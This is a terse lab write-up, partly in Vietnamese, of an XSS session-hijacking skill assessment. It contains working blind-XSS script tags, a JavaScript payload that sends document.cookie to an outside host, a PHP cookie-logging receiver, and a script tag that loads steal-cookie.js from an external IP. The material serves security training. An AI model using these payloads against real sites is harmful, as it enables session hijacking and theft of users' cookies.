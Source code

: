 # Skill Assessment
Access the /assessment directory on the server using the browser.

Identify a user-input field that is vulnerable to an XSS vulnerability
Find a working XSS payload that executes JavaScript code on the target’s browser
Using the Session Hijacking techniques, try to steal the victim’s cookies, which should contain the flag
What is the value of the ‘flag’ cookie?


Truy cập /assessment -> tìm thấy các form nhập liệu:
- Search Form
- Comment form với các filed như email, name,website...
Chạy một PHP server để nhận request từ victim:
php -S 0.0.0.0:9000

Thử payload
```html
<script src="http://MyLocalIp:9000/comment"></script>
<script src="http://MyLocalIp:9000/name"></script>
<script src="http://MyLocalIp:9000/website"></script>
```
gặp lỗi:
Please fill the required fields (name, email)

"> vào name 

```js
new Image().src='http://MyLocalIp:9000/sess_hijack.php?c='+document.cookie;
```
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
<script src="http://10.129.14.166:237/steal-cookie.js"></script>
website field
boom@example.com 

![alt text](image.png)
